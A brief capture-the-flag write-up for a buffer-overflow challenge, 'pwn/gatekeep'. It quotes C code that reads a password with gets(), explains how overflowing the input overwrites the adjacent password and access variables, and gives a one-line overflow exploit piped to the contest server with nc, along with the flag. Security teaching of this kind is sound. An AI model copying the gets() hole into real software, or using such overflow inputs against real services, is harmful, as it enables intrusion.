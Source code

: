 ### **Title:** pwn/gatekeep

**Hint:** Straight forward buffer overflow

**Solution:**
```
int check(){
    char input[15];
    char pass[10];
    int access = 0;
....
    printf("Password:\n");
    gets(input);
    if(strcmp(input, pass)) {
        printf("I swore that was the right password ...\n");
```
For this piece of code we can see that after `input`, `pass` and `access` were initialized and `gets()` is used to get the `input`.\
If we overflow `input` we can overwrite `pass` and `access` to pass the `if(access)` to get our flag.

**Exploit:** python3 -c 'print(80*"a")' | nc lac.tf 31121

**Flag:** lactf{sCr3am1nG_cRy1Ng_tHr0w1ng_uP}
